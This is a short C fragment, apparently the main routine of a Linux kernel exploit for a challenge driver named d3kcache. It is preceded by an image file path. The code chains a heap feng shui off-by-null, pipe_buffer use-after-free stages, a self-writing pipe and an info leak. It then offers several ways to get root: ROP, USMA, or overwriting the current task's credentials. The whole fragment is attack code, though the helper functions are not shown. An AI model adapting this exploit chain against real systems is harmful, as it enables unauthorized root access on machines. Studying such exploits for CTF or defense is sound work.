 ```c
    if (dev_fd < 0) {
        err_exit("FAILED to open /dev/d3kcache!");
    }

    /* spray pgv pages */
    prepare_pgv_system();
    prepare_pgv_pages();

    /**
     * Step.I - page-level heap fengshui to make a cross-cache off-by-null,
     * making two pipe_buffer pointing to the same pages
     */
    corrupting_first_level_pipe_for_page_uaf();

    /**
     * Step.II - re-allocate the victim page to pipe_buffer,
     * leak page-related address and construct a second-level pipe uaf
     */
    corrupting_second_level_pipe_for_pipe_uaf();

    /**
     * Step.III - re-allocate the second-level victim page to pipe_buffer,
     * construct three self-page-pointing pipe_buffer 
     */
    building_self_writing_pipe();

    /**
     * Step.IV - leaking fundamental information by pipe
     */
    info_leaking_by_arbitrary_pipe();

    /**
     * Step.V - different method of exploitation
     */

    if (argv[1] && !strcmp(argv[1], "rop")) {
        /* traditionally root by rop */
        privilege_escalation_by_rop();
    } else if (argv[1] && !strcmp(argv[1], "cfi")) {
        /* extra - check for CFI's availability */
        trigger_control_flow_integrity_detection();
    } else if (argv[1] && !strcmp(argv[1], "usma")) {
        privilege_escalation_by_usma();
    }else {
        /* default: root by seeking init_task and overwrite current */
        privilege_escalation_by_task_overwrite();
    }

    /* we SHOULDN'T get there, so panic :( */
    trigger_control_flow_integrity_detection();
    
    return 0;
}

```
